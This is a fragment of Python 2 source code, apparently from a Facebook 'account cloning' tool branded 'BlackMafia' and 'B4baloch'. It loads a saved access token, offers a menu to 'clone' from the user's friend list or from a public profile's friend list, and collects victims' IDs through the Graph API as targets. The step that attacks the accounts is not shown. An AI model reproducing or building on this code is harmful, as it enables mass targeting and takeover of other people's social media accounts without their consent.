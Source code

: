 
def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\033[1;96m--\033[1;92m> \033[1;92m1.\x1b[1;91mClone From Friend List..."
	print "\033[1;96m--\033[1;92m> \033[1;92m2.\x1b[1;91mClone From Indian ID Link Public Frendlist..."
	print "\033[1;96m--\033[1;91m> \033[1;91m0.\033[1;94mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;91mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;95mтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд\033[1;96mBlackMafia\033[1;95mтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд"
		jalan('\033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;96m[тЩб] \033[1;92mEnter ID link\033[1;93m: \033[1;97m")
		print "\033[1;95mтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд\033[1;96mB4baloch\033[1;95mтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;92mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;94mBack\033[1;96m]")
			super()
		print"\033[1;93mGetting IDs\033[1;93m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	